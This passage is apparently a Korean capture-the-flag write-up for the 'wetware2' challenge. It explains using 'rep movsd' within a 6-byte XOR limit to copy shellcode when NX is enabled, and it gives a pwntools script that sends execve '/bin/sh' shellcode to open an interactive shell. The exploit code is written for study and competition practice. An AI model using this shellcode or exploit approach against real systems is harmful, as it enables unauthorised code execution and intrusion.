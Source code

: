```python
pause()
t.sendline(p)

t.interactive()
```





# wetware2

wetware와 동일하다 다른 점은 nx비트가 걸려있다는 것, 그리고 8바이트에서 6바이트 xor로 바뀌었기 때문에 원하는 명령어는 6바이트만 사용 가능하다..

결국 대회 끝나고 풀었는데.. 명령어들 검색해 보다가 movsd를 찾았고 rep movsd가 딱 이 상황에 맞는 명령어였다!!!!!!!

> rep  : 스트링 명령어 반복 (ecx가 카운트)
>
> movsd : rsi 에 있는 값 4바이트를 rdi에 넣넣 (스트링 명령어)

해서 사용한건

>    0:   b1 10                   mov    cl,0x10
>
>    2:   f3 a5                   rep movs DWORD PTR es:[rdi],DWORD PTR ds:[rsi]
>
>    4:   eb 4a                   jmp    0x50

요것! rep가 실행되면 0x40021d에 쉘코드가 박히는데 jmp 0x40021d 만들려고 또 이것 저것...

```python
from pwn import *

t = process('./wetware2')
#t = remote('chal1.swampctf.com',1337)

t.recvuntil(":")
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

ssc = ('''
	mov cl, 30
	rep movsd
	jmp rdi
	''')

asm_sc = asm(ssc,arch='amd64')

print disasm(asm_sc,arch='amd64')

print disasm("\xb1\x10\xf3\xa5\xeb\x4a",arch='amd64')

# b140f3a5eb4a
# p = asm_sc

#p = "\xb1\x10\xf3\xa5\xeb\x4a"

p = p64(0x90657b85cb9b7e64) + sc

t.sendline(p)

t.interactive()
```

으으 잘하고 싶다..